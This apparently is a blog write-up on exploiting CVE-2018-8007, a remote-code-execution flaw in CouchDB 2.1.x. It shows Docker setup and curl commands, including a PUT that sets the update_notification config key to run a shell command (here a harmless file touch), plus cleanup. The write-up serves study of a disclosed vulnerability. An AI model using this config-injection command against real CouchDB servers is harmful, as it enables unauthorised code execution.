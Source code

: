 ```yaml
---
layout: post
title: Exploitation of CVE-2018-8007
---
```



# Exploitation of CVE-2018-8007

CVE-2018-8007 is an RCE-vulnerability targeting Couchdb version 2.1.1. Because
of some modifications (described below) version 2.1.2 is also vulnerable. Newer
versions are not vulnerable.

The vulnerability was found by MD sec and described in [1]. Because I had
trouble turning the given PoC into an RCE-exploit, I decided to write this
short write-up.

## Short description of vulnerability

The vulnerability can be triggered when editing the configuration file by using
the REST API. Certain configuration elements are blacklisted and you are not
allowed to edit them through the REST API. But by injecting a newline, it is
possible to create arbitrary new entries.

## Start up database

A new database can be started up quite easily with Docker:

~~~
sudo docker run --rm -p 127.0.0.1:5984:5984 -e COUCHDB_USER=admin -e COUCHDB_PASSWORD=password --name my-couchdb couchdb:2.1.2
~~~

## Find nodes

The next step is to find the name of some nodes in database, that can be done
with the following command:

~~~
curl -iv -X GET http://127.0.0.1:5984/_membership -u admin:password
~~~

## Trouble with os_daemons

My problems started when I didn't get os_daemons to work correctly. I could use
the given PoC to update the config file and was able to manually verify that the
config file was updated, but the command was never executed.

For reference, the config file in the docker container will be in the following
directory:

~~~
/opt/couchdb/etc/local.d/
~~~

To see if I misunderstood something, I tried to look at the Couchdb
documentation for os_daemons, only to find out that the feature has been removed
and the documentation for earlier version has removed the page I was looking
for. The full page can however, be found at archive.org[2].

Even after looking at the documentation, I still couldn't figure out how to make
this work. I therefore tried to look at some of the other configurations I could
inject. update_notification seemed like a good choice.

After some testing, it still didn't work. To verify that my configuration was
correct, I placed update_notification in from the start and verified that my
command was executed. With this we could verify that the problem was with the
exploit and not with the configuration.

I decided to re-read the PoC more carefully to see if I missed anything and
realised that update_notification is not part of the blacklist shown. A look at
the appropriate code[3] also shows that the configuration is not blacklisted.

The exploit is therefore quite simple, we don't even need to inject a newline,
we just configure it like normal.

~~~
curl -iv -X PUT http://127.0.0.1:5984/_node/nonode@nohost/_config/update_notification/index-updater --data '"/usr/bin/touch /tmp/hack"'
~~~

You can now spawn a shell on the docker container and verify that /tmp/hack has been created.

To clean up, you should of course delete the file and delete the entry in the
config. The config entry can be deleted with:

~~~
curl -iv -X DELETE http://127.0.0.1:5984/_node/nonode@nohost/_config/update_notification/index-updater
~~~

# Conclusion

In the end, the exploit is not actually injection of new entries, but a missing
entry in the blacklist. The only practical meaning of this is that version 2.1.2
is also vulnerable.

An interesting side-note is that the functionality was seemingly removed
independently on the reported vulnerability. It was removed on Agust 1 in
a pull request not mentioning the security vulnerability [4]. The pull request
related to the vulnerability seems to be [5].

# References

- [1] [Original exploit](https://www.mdsec.co.uk/2018/08/advisory-cve-2018-8007-apache-couchdb-remote-code-execution/)
- [2] [Documentation at archive.org](https://web.archive.org/web/20170924155102/http://docs.couchdb.org/en/stable/config/externals.html)
- [3] [Code with vulnerability](https://github.com/apache/couchdb/blob/master/src/couch/src/couch_util.erl)
- [4] [Pull request for removing update_notification](https://github.com/apache/couchdb/pull/1477)
- [5] [Pull request for fixing exploit](https://github.com/apache/couchdb/pull/1602)

